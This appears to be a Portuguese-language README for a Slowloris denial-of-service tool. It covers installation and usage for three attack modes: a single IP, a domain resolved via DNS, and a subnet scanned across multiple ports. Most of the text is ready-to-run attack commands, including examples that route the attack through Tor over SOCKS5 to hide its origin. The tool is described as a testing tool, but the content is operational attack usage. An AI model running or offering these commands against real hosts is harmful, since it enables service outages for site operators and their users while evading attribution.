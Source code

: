 # Slowloris Tool

Ferramenta unificada de testes Slowloris, com três modos de execução (até o momento):

- **sniper** → ataque direcionado a um IP único  
- **domain** → ataque direcionado a um domínio (resolve via DNS)  
- **pitchfork** → teste em sub-rede + múltiplas portas de sua escolha

---

## Instalação

```bash
git clone https://github.com/CLSxSH7/slowloris-tool.git
cd slowloris-tool
pip install -r requirements.txt
```

Para suporte a proxy **SOCKS5**, instale também:

```bash
pip install PySocks
```

---

## Uso

### Menu interativo

Se executar sem parâmetros:

```bash
python slowloris-tool.py
```

Você verá um menu para escolher entre **sniper**, **domain** e **pitchfork**, com prompts para cada parâmetro.

---

### Modo sniper (IP único)

```bash
python slowloris-tool.py sniper 192.168.0.10 -p 80 -s 200 --https -ua --sleeptime 10
```

Com proxy SOCKS5 (ex.: Tor):

```bash
python slowloris-tool.py sniper 192.168.0.10 -p 80 --socks5 127.0.0.1:9050
```

---

### Modo domain (Domínio)

```bash
python slowloris-tool.py domain example.com -p 443 --https -s 200 -ua
```

Com proxy SOCKS5:

```bash
python slowloris-tool.py domain example.com -p 443 --https --socks5 127.0.0.1:9050
```

---

### Modo pitchfork (Sub-rede/Portas)

```bash
python slowloris-tool.py pitchfork 192.168.0.0/24 -P 80,8080,443 -s 200 -t 50 -d 120
```

> ⚠️ Neste modo, **não há suporte a SOCKS5** (execução direta).

---

## Dependências

- Python 3.9+
- `requests`
- `PySocks` (apenas se for usar `--socks5`)

---

## Observações

- O parâmetro `--socks5` é suportado somente nos modos **sniper** e **domain**.  
- O proxy é aplicado globalmente via `socket` monkeypatch.  
- Para rodar via **Tor**, certifique-se de ter o serviço ativo na porta 9050:

```bash
tor &
python slowloris-tool.py domain target.com --socks5 127.0.0.1:9050
```

---